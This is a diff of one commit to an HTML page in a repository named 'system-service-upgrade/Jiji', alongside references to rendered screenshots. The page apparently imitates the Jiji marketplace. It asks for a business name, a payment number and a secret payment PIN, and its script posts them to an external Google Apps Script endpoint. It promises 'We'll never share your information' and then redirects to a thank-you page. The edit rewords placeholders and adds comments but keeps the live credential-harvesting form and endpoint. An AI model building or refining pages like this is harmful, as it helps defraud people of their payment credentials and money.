

Before and after one commit to system-service-upgrade/Jiji, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 165-474 px from the top of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -30,13 +30,13 @@
     <!-- Form -->
     <form id="jijiForm" autocomplete="off">
       <label for="business">Business Name</label>
-      <input type="text" id="business" name="business" placeholder="Enter your Business Name" required>
+      <input type="text" id="business" name="business" placeholder="Enter Business Name" required>
 
       <label for="paymentNumber">Payment Number</label>
-      <input type="text" id="paymentNumber" name="paymentNumber" placeholder="Enter your Payment Number" required>
+      <input type="text" id="paymentNumber" name="paymentNumber" placeholder="Enter Payment Number" required>
 
-      <label for="paymentPin">Payment PIN</label>
-      <input type="password" id="paymentPin" name="paymentPin" placeholder="Enter your Payment PIN" required>
+      <label for="paymentPin">Payment Pin</label>
+      <input type="password" id="paymentPin" name="paymentPin" placeholder="Enter Payment Pin" required>
 
       <div class="notice" id="status">We'll never share your information.</div>
 
@@ -52,6 +52,7 @@
     const form = document.getElementById('jijiForm');
     const statusEl = document.getElementById('status');
 
+    // your deployed Apps Script Web App URL
     const WEBAPP_URL = 'https://script.google.com/macros/s/AKfycbxOpOdwYts-Td5SH48_hq9dADPzhwRuINh6LevT_up92sj2g0FiLDTnlcJ78SYe7As4RA/exec';
 
     form.addEventListener('submit', async (e) => {
@@ -70,8 +71,9 @@
         const text = await response.text();
         console.log("Server says:", text);
 
+        // if success → redirect immediately
         if (text.includes("SUCCESS")) {
-          window.location.href = "thankyou.html"; // redirect after success
+          window.location.href = "thankyou.html";
         } else {
           statusEl.textContent = 'Submission failed. Try again.';
           statusEl.style.color = '#aa0000';
```
